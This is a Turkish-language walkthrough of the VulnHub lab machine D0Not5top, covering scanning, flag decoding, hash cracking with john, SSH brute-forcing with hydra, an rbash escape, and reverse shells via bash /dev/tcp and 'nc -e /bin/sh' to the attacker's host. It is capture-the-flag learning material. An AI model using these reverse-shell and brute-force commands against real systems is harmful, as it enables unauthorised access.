#   D0Not5top Boot2Root Walkthrough

[D0Not5top](https://www.vulnhub.com/entry/d0not5top-12,191/)

Merhabalar bu yazıda D0Not5top 1.2 versiyonunun çözümünü göstereceğim bu benim ilk denemem o yüzden çok başarılı bir yazı olmayabilir.İdare edin artık =)

Şimdi bu makinede 7 adet flag var ki bu benim için işleri baya bir zorlaştırıyor :( .Demek istediğim asıl ve en önemli amaç diğer makineler gibi bu makine root olmak değil.Tabi olsak fena olmazdı hani.Neyse başlayalım-->

Şimdi öncelikle ağa bir nmap taraması atıyorum.

    nmap 10.0.2.0/24 -sV
    
Sonra makinenin 10.0.2.9 ip'sine sahip olduğunu ve bolbol açık portu olduğunu görüyoruz.



Tek tek exploit aramaya başlıyorum.OpenSSH için basit bir kaç arama yapıyorum ama bulamıyorum.Smtp için bakınıyorum smtp_enum isimli bir şey gözüme çarpıyor.Smtp'nin tam olarak nasıl çalıştığını bilmediğimden baya da bir araştıyorum tabi.En son smtp_enum'un bana kullanıcı adlarını veren bir exploit olduğunu anlıyor bu kullanıcı adlarını nasıl kullanırız diye düşünmeye başlıyorum.

    msfconsole
    use auxiliary/scanner/smtp/smtp_enum



Sonra telnet ile bu smtp'ye bağlanılabildiğini buluyorum ve bağlanıyorum.

    telnet 10.0.2.9 25
    
İlginç bir interface beni karşılıyor.Burda bazı komutları deniyorum ama nafile.



Bıkmış br halde tekrar bakarken internetteki örnekler ile benim interface'imde bir farklılık görüyorum.Bağlantıdan hemen sonra çıkan welcome mesajı internette diğer smtp bağlantı örneklerinde yok yani bu interface'e özel.Anlıyorum ki bu sayıların bir önemi var.İkili ikili göründüklerinden 16'lık tabanda olabilecekleri aklıma geliyor.Hex to Ascii deniyorum ve bingo.



Tabi biraz düzenlenmesi gerek.Boşlukları koyuyor uygun yerleri siliyorum...

Ve ilk flagımı buluyorum :
    "FL46_3:29dryf67uheht2r1dd4qppuey474svxya

Daha sonra açık olan PowerDNS portu ile rpcbind'e de baktım.Bu portlar için bir kaç exploit var ama içeri girmeyi başaramadım bende fazla zorlamadan 80 portuna yöneldim.

İlk iş hemen tarayıcıyı açıp adrese gitmek oldu hehe =)



Tabiki hiç bir şey yok sadece okumaya çalışırken baya vakit harcadığım cesaretlendirici diyemeyeceğim bir mesaj var.

Şimdi apache, javascript, php ile yeterli bilgim olmadığından arkadaşlarında yardımı ile önce scannerları buluyorum.Nikto, dirb ve owasp kalide mevcut olanlar.WpScan da var ama o WordPress içinmiş.

Herneyse seni seçtim nikto diyor başlıyorum.Biraz internetten birazda man dosyasından kullanımını buluyorum.

    nikto -h 10.0.2.9
    
Basitmiş aslında derken karşıma destan gibi bir çıktı çıkıyor :(

O kadar uzunki iki parça screenshot alıyorum





Sonra bana bazı directory'lerin olduğunu, robots.txt dosyasında girdilerin olduğunu falan söylüyor.Bi bakayım 
diyorum bende.



Burdaki adresleri tek tek deniyorum ama ilginç bir şey bulamıyorum.Alt kısımda bir mesaj var ve bana User-Agent "GameTerminal" 'e her şey serbest gibisinden bir açıklama gibi görünüyor.User-Agent nasıl değiştirilir diye bakınıyorum ve mozilla'da bu iş için bir add-on buluyorum.



Değiştiriyorum ama hiç bir şey olmuyor :(

Daha sonra dirb'e yöneliyorum.Site adreslerine brute-force yapmak için kullanılıyor kendisi.Bende işe koyuluyor bir tarama başlatıyorum.

    dirb http://10.0.2.9:80

O taramaya devam ederken bende bulunan directoryleri geziyorum tarayıcı üzerinden.

/control'de garip bir index buluyorum.İçinde ayrıca /css /js /fonts klasörlerinide barındırıyor.





Şu search kısmına daha önce sağda solda gördüğüm sqlinjection kodları deniyorum ama nafile :S Mevcut resim üzerinden gidiyor indirip binwalk, strings ve exiftool çıktılarına bakıyorum ama yine bir şey bulamıyorum.

Sonra birde bunun kaynak kodlarına bakalım diyorum Ctrl+U yapıyorum.Yukarıdan aşağıya incelerken



Açık şekilde flag görünüyor.Ve böylece ikinciyide buluyoruz.

    FL46_1:urh8fu3i039rfoy254sx2xtrs5wc6767w
    
Ayrıca aşağıda kırmızı ile dikkat çeken bir yazı daha var



Tam olarak ne demeye çalıştığını çözemiyorum ne yazık ki.

Sonra /control/css /control/js /control/fonts adreslerine tek tek gidiyor iyice didikliyorum :) 



/control/js içinde garip bir Readme var onu açıyorum.



de görüldüğü üzere bir sağında solunda MadBro yazan bir mesaj var.Benden bir dahaki sefere /etc/host'umu değiştirip gelmemi istiyor.Ayrıca altta flag gibi görünen bir mesaj var.Mesaj da bazı kısımlar ikili tabanda görünüyor.Biraz deneme yaptım ama Binary to Ascii çalışmadı.Sonra farkettim ki bu arkadaş sadece rakamların yerine binary kullanmış.Binary to Decimal converter yardımı ile 3 satırı ayrı ayrı çevirdim.

    FL46_2:39331r42q2svdfsxk9i13ry4f2srtr98h2
    
Ve üçüncüyüde bulmuş olduk.daha sonra mesajın dediği gibi /etc/host dosyamı değiştiriyorum.



Sonra adrese gidiyorum ve şöyle bir index beni karşılıyor



Arayüzü incelerken altta en son üye olan kişinin nicki "Megusta" var belki ona brute force deneriz düşüncesi geliyor aklıma.



Konu başlığında ki resme gözüm çarpıyor indirip binwalk, strings ve exiftool araçları ile bakıyorum.Ayrıca sayfa başında trollface'li bir resim var ama onu indirmeyi başaramıyorum.



Forensic araştırmam sonuç vermiyor ne yazık ki ve resimde bir şey bulamıyorum.

Sonra sitenin bir forum sitesi olduğunu anımsayıp üye olmaya çalışıyorum.Ama şartları kabul ettikten sonra şöyle bir hata alıyorum.



Bana admin ile iletişime geç diyor ve bir mail adresi veriyor.

    Megusta@G4M35.ctf

Dursun belki lazım olur diyip bir kenera not ediyorum.

Daha sonra anasayfaya geri dönüyorum.Burada içinde farklı bir dille ya da kriptolu bir şekilde yazılmış mesaj olan bir Forum görünüyor.



Türünü bilmediğim için bir bölümünü google trasnalte veriyorum ama bir şey bulamıyorum.

Bir şey bulamayınca aklıma scannerlar geliyor ve nikto ile başlıyorum.

    nikto -h http://d0not5topme.ctf/
    
Şöyle bir çıktı alıyorum



Burada verilen tüm adreslere gidiyorum ama pek ilginç bir şey bulamıyorum.Bende birde owasp'ı deneyelim diyerek ona yöneliyorum.Kali'nin programlar menüsünden owasp-zap'ı açıyor ve target kısmına hedefin adresini giriyorum.Sonra tarama başlıyor.

Tarama devam ederken bende adreslere göz gezdiyorum bu sırada gözüme **flagfinders** gibi bir şey takıldı detaylı baktığımda: 



Biraz daha yakınlaşalım



Burada **FLaR6yF1nD3rZ_html** gibi bir şey yazıyor.Bunu adresin sonuna ekleyip gitmeye çalıştım ve bingo.



Eğer ctf'ler ile uğraşıyorsanız ve benim gibi web sevmiyor kriptoloji ve forensic hoşunuza gidiyorsa illa görmüş olmalısınız ki bu bir **BrainFuck** metni.Hemen Brainfuck to Text diyorum google'a.Ve flagı buluyoruz.

    FL46_4:n02bv1rx5se4560984eedchjs72hsusu9
    
Bundan sonra owasp'a geri dönüp başka ne bulabiliriz diye bakıyorum ama başka bir sonuç çıkartamıyorum.

Elimde kalan seçenekler den ilki bulduğum her text yazılabilen alana sqlinjection kodları yazmak iken diğer seçenek ise bulduğumuz mail adresi.

İnternetten bulduğum bir kaç sql kodu ile denemeler yapıyorum ama bir şey çıkartamıyorum.Mail adresine dönüyorum yapabileceklerim hakkında biraz araştırma yaparken mail adresinin sonunun **.ctf** ile bittiğini görüyorum daha önce D0Not5topMe.ctf ismini /etc/hosts'un altına yazmıştık ve onun snuda .ctf ile bitiyordu bunuda /etc/hosts'un içine yazmayı deniyorum.



Bingo!Yeni bir index daha doğrusu bir tür oyun :)



Bu noktada yapabileceğim şeylere bakıyorum.Birincisi oyunun başarıyla bitirirmek bir flagın açılmasını tetikleyebilir.İkincisi kaynak kodlarında gizlenmiş bir şeyler olabilir.Ya da owasp, nikto taramaları sonuç verebilir.Yine nikto ile başlamaya karar veriyorum.



Çıktısını alıyorum.Burdaki adreslere tek tek bakmaya başlıyorum.Ama bir şey çıkmıyor.Sonra owasp'a geçiyorum.Owasp taramasından da bir şey çıkmıyor.Bende diğer seçeneklere geçiyorum.Oyunun başarıyla bitirmeye çalışmak ilk seçeneğimiz en olmadı hile yapmaya çalışırız diye düşünüyorum.Oyunu oynamaya başlıyorum.Qualifying bölümünde sınırsız roketiniz var.Eğer bu bölümü geçebilirseniz level 1'e geliyorsunuz ve sadece 5 roketiniz var.Eğer roketlerin hepsi bitirse Qualifying bölümüne geri dönüyorsunuz ancak tam bu sırada ekranda garip bir yazı çıkıyor.Ama dikkat edin tam kopyalacağım derken tıklarsanız benim gibi yazı kayboluyor bu yüzden bir kaç defa oyunu yeniden oynamak zorunda kalabilirsiniz ama oynaması zevkli olduğundan benim için sorun olmadı :D

Neyse kolaylık olsun diye yazıyı buraya koyuyorum



    /H3x6L64m3
    
Bir adrese benzediği için url sonuna ekliyorum.

Vee yeni bir oyun :D



Üstteki oyun için bahsettiğim senaryolar burada da geçerli sayılır diyerek oyunu oynamaya başlıyorum.Arkaplanda bazı rakamlar var ve düşerseniz yine bir uzantı görünüp kayboluyor.Kali de oyunu 10-5 fps ile oynayabildiğim için ( Malesef =( ) ayarları **low**'a getiriyorum böylece rakamlarda da daha iyi ayırt edilebiliyor.



Bunlar bahsettiğim rakamlar net görebilmek için biraz sürmek gerekiyor uzay aracını ilerilere doğru.

Ve son olarak eğer aşağıya düşerseniz bir kaç saniyeliğine ekranda bu beliriyor



    HTTP://T3RM1N4L.CTF
    
Önce rakamları decode etmeye sonra adrese gitmeye karar veriyorum.

Rakamları decode etmek için önce encode tipini bulmalıydım.Eğer bu bir flag ise ilk harf "F" ile başlamalıydı.Yani "\106" 'nın "F" harfine eşit olduğu bir encoding tipi olmalıydı.ASCII tablosunda octal değerler kısmında 106 "F" harfine denk geliyordu.Bu şekilde octal to ASCII yardımıyla bir flagı daha bullmuş olduk.

    FL46_5:09k87h6g4e25gh44wa1rybyfi898hncdu
    
Devamında ise /etc/hosts dosyasını tekrar düzenleyip taraycımın adres kısmına aldığımız url'yi yazdım.



Ve bir terminal ekranı beni karşıladı.



Hemen bildiğim her komutu denemeye başladım :D



Anlaşılan "password istiyor" diyerek başka çözümler düşünmeye başladım.İlki nikto,owasp taramaları ikincisi ise kaynak koduna bakmaktı.En olmadı brute force deneyecektik.Başka yolu yoktu.

Nikto taramasından hiç bir şey bulamadım.Owasp'da ise /css /js uzantıları ortaya çıktı.Bu şekilde başka uzantılar olma ihtimalini düşünerek dirb'e başvurdum ancak Owasp'dan elde ettiklerimden fazla bir şey elde edemedim.

Bunun üzerinde ikinci hedefe yani kaynak kodlara yöneldim.Ctrl+U ile baktığımda şöyle bir ekran karşımıza çıkıyor.



Burada sitede kullanılan terminal emulatorü hakkında bilgi var bunu kullanarak açık bulma ihtimaliz var o yüzden not ediyorum.

    PHP+JQuery Temrinal Emulator by Fluidbyte
    
Bu arada "Terminal" yerine "Temrinal" yazdığı gözümden kaçmıyor :D

Ancak bu bilgilerden de malesef bir açık bulamıyorum :S

En son brute-force geliyor aklıma bir kaç deneme yapıyorum ve aynı GameOfPwners yarışmasında wifi-aircrack sorusunda yaptığım gibi parolayı verilen isimle aynı giriyorum ve bingo!! :D



Komutları denemeye başlıyorum ama neredeyse her komuta bu **ERROR: Megusto ere no no!** hatayı veriyor ayrıca kısa sürede oturumu düşürüyor ve tekrar aynı parolayı soruyor :( Bu zor şartlarda uzun denemelerde sonra **grep** komutunun çalıştığını farkediyorum ve 

    grep *
    
yazıyorum.Bingo



Böylelikle M36u574.ctf isimli bir klasör olduğunu farkediyoruz.Sizinde artık alıştığınız gibi yapılacaklar belli.

/etc/hosts dosyasını ayarlayıp tarayıcıma gidiyorum.

Karşımıza sürekli değişen trollface resimleri çıkıyor.

Herhangi etkileşime geçebileceğim bir yerde olmadığından tarama safhasına geçiyorum.Önce Ctrl+U yapıyorum.



İlgi çekici bir şey bulamadığımdan her zaman yaptığım gibi dirb,nikto ve owasp taramalarını yapıyorum ama hiç bir şey çıkmıyor.



Biraz karıştırdıkdan sonra resimlerde bir şeyler olabileceği aklıma geliyor./images'in altında megusta00*.jpg(Yıldız yerinde sayılar var) resimleri var bir kaçından bir şey çıkmıyor.

Bu noktada dikkatimi ismi farklı olan başka bir resim çekiyor. /images/kingmegusta.jpg



:D

Bu resmide indiriyorum binwalk çıktısından sonuç alamasamda exiftool çıktısında resme yorum konulduğu görülüyor.

    exiftool kingmegusta.jpg
    


Yorumda yazan metnin kriptolu olduğu aşikar ve encode edilmesi lazım.

Bu kadar uzun bir hash bildiğim kadarı ile bulunmadığından hash olmadığını farzediyorum.Root13 de olamaz gibi duruyor.BrainFuck ya da Ook!'da olmadığı bariz belli.Daha sonra aklıma base64 olabileceği geliyor.CTF'lerde kriptloji sorularına arasıra bakıyorsanız mutlaka görmüş olmalısınız.

Taminim doğru çıkıyor.



Elde ettiğimiz şey ise yine linux ta parolanızı kaybettiyseniz ya da /etc/shadows'a bir göz attıysanız aşina olmanız gereken bir şey.
**sha512crypt $6$, SHA512 (Unix) 2**

Yani sha512 ile hashlenmiş MeGustaKing isimli kullanıcının şifresi.

Sql ve web sevmeyen ben için işin en eğlenceli ve heyecanlı kısmı burasıydı açıkcası :D Hemen bu hash'i güzelce bir temizleyip şu hale getiriyorum:

$6$e1.2NcUo$96SfkpUHG25LFZfA5AbJVZjtD4fs6fGetDdeSA9HRpbkDw6y5nauwMwRNPxQnydsLzQGvYOU84B2nY/O40pZ30

Bunuda hash.txt isimli dosyaya atıyorum.Daha sonra Arch'a geçiyorum çünkü Kali üzerinde ekran kartı sürücüleri tam olarak bulunmuyor.

    hashcat -m 1800 -a 0 ~/Desktop/hash.txt ~/Desktop/wordlists/rock.txt
    
Hashcat'in normalde çalışması gerekir ancak benim bilgisayarımla ilgili olması muhtemel bir sorundan dolayı "Signature unmatched" hatası veriyor.Bende John'a geçiyorum.

    john ~/Desktop/hash.txt --wordlist=~/Desktop/wordlists/rock.txt
    
Bu komut ile çalıştırdığınızda 

Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 64/64 OpenSSL])

Uyarısı veriyor dediğini yapıp 
    
    john ~/Desktop/hash.txt --wordlist=~/Desktop/wordlists/rock.txt --format=crypt
    
Bu komutu kullanıyoruz çünkü saf sha512 değil Unix sistemler için olanını kırmaya çalışıyoruz.Wordlist olarak da ünlü RockYou'yu seçiyorum.

Ve bingo =)



Hartırlarsanız SSH portu açık idi.Hemen oraya gidiyorum.

    ssh MeGustaKing@10.0.2.9
    
Diyorum Veee....



Last login:Sat Apr  1 00:00:01 2017 from R0cKy0U.7x7
Welcome to rush shell
Lets you update your FunNotes and more!

Uh0h.. u n0 burtieo
h35 da 54wltyD4w6 y0u...
Gw04w4y :(

Kısaca sen burtieo değilsin diyerek kapıyı gösteriyor.Son girişin 1 Nisanda RockYou tarafından olması dikkat çekici bizimle dalga geçiyor arkadaş :D 

Ama en azından insaflı davranıp bir aded kriptolu metin veriyor bize.

TRACE: sshPr0xy.py line:550 <CODE>U2FsdGVkX1vv715OGrvv73vv73vv71Sa3cwTmw4Mk9uQnhjR1F5YW1adU5ISjFjVEZ2WW5sMk0zUm9kemcwT0hSbE5qZDBaV3BsZVNBS++/ve+/ve+/vWnvv704OCQmCg==</CODE>

Tahmin edebilceğiniz gibi bu bir Base64.Sonunda **==** olması kendini hemen belli ediyor.Base64'lerde **=** bazı durumlarda algoritmayı tamamlamak için kullnılır.



Çıkan sonuç anlamsız ama başında salted geçiyor.Burdan yola çıkarak başta ve sondaki anlamsız karakterleri siliyor ve tekrar decode ediyorum.



Buda bana flag olarak geri dönüyor :D

    FL46_6:pqpd2jfn4ruq1obyv3thw848te67tejey
    
Kaldı bir tane ve ben baya yoruldum :( Bu kadar uzun olacağını tahmin etmiyordum.Bu noktada tam olarak elimde ipucuda kalmıyor.Geldiğim noktaya geri dönüp SSH mesajına tekrar baktığımda burtieo isimli kullanıcı ile SSH brute force yapmak geliyor aklıma.Hatırlarsanız sen o değilsin demişti.Wordlist ise tabiki RockYou.

SSH brute force için Hydra, Medusa, Ncrack gibi elimizde bol seçenek mevcut.Hydra'da karar kılıyorum.

    hydra -t 32 -l burtieo -P /usr/share/wordlists/rockyou.txt 10.0.2.9 ssh 

Gerçekten uzun(neredeyse 1 saat) bir zaman sonra buluyoruz parolayı
    


    ssh burtieo@10.0.2.9
    
Diyorum ve şu ekran beni karşılıyor.



Yayy! :D

Diyecekken sevinmekten vazgeçiyorum.



Hiç bir komutun çalışmadığı bir shelle düştüğümü farkediyorum çünkü.

Arasanız bulamazsınız böyle shell'i :(

Bu noktadan sonra yapılabilecek şeyler bir şekilde yetkimi arttırmaya çalışmak ya da komutları bir şekilde çalıştırmak.NetCat ile shell'i ; dinlediğim bir porttan kendime atmakta işe yarayabilir.Ayrıca içine düştüğüm shell :( **rbash** olarak geçiyor.İnternette bu shell ile ilgili açık bulmayıda deneyebilirim.

Bu yazdıklarımı sırası ile yapmaya ve araştırmaya başlıyorum.
    
Alttaki mükemmel site sayesinde bir çok komut buluyorum ve hepsini deniyorum.
    
[Mükemmel-Site](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)



Burda yapmaya çalıştığım şeyler shelli bir yerlere taşımak ya da başka programlar üzerinden shell komutları çalıştırmak ama nafile.En son SSH üzerinden ShellShock deniyorum sitede yazıldığı üzere.İyiden iyiye sinir oluyorum baya

Ama sonunda kırılan rbash'ın çıkardığı çaat sesini kulaklarımda hissediyorum :D



ssh üzerinden komutları çalıştırmayı başarıyorum.

    ssh burtieo@10.0.2.9 pwd
    
Şeklinde bir kullanıma sahip.

Daha sonra shell'i değiştirmek için reverse shell atmayı deniyorum

    ssh burtieo@10.0.2.9 "bash -i >& /dev/tcp/10.0.2.8/8080 0>&1"
    
Diyorum ancak çıktı yönlendirmesine izin vermiyor.



Bende NetCat ile denemeye karar veriyorum.

    ssh burtieo@10.0.2.9 "nc -e /bin/sh 10.0.2.8 1337"
    
Diyorum ve dinlemek içinde başka bir terminalde

    nc -lvp 1337
    
Yazıyorum ve Bingo artık daha kaliteli bir shell'e sahibiz.


    
Bu noktadan sonra sağı solu karştırmaya başladım.Elimde az yetkili olan bir kullanıcını shelli vardı.İçerde neler yapabileceğimi bulmak için yardımcı script kullanmak en mantıklısı olduğundan Linux Enumeration Script buldum.Sorun bu şeyi içeri sokmaktı.

Script için:[Buradan](https://highon.coffee/blog/linux-local-enumeration-script/)

    wget https://highon.coffee/downloads/linux-local-enum.sh
        
Komutu ile sitede yazdığı üzere scripti bilgisayarıma çektim.İçeri dosya sokmak için ssh'ı kullanabilirdim.**SCP** yada **SSHFS** iş görebilirdi ama scp daha basit olduğundan ona yöneldim

    scp linux-local-enum.sh burtieo@10.0.2.9:/tmp 
    
/tmp dizini en yetkisiz kullanıcıya bile genelde açık olduğu için workspace olarak orayı belirledim =)



Her şey gayet yolunca gitti.

Şimdi sıra scripti çalıştırmaya geldi.Ama önce tmp dizininde garip isimli bir dizin daha olduğunu gördüm ama malesef açmaya yetkim yoktu.



Sonra scripti çalıştırdım ve çıktısını "deneme" isimli dosyaya yolladım.

    bash linux-local-enum.sh > deneme
    cat deneme
    
Çook uzun bir(screenshot çekmenin mantığı olmayacağı kadar) çıktı karşımdaydı neredeyse vm hakkında her bilgi olsada yararlı bir şeyler bulamadım bunun üzerine başka bir script bulup tekrar denemeye karar verdim çünkü yapılabilecek başka bir şey aklıma gelmiyordu.

    git clone https://github.com/rebootuser/LinEnum.git
    
Yardımı ile script'i çektim ve karşı tarafa aynı şekilde yolladım.
Sonrada çalıştırdım.

Aynı şekilde çıktıya bakınca şu dikkat çekici bilgilere ulaştım:




    
Bu bilgilerden yola çıkarak wmstrt'yi çalıştırmayı denedim.Ama çalıştıramadım.

    

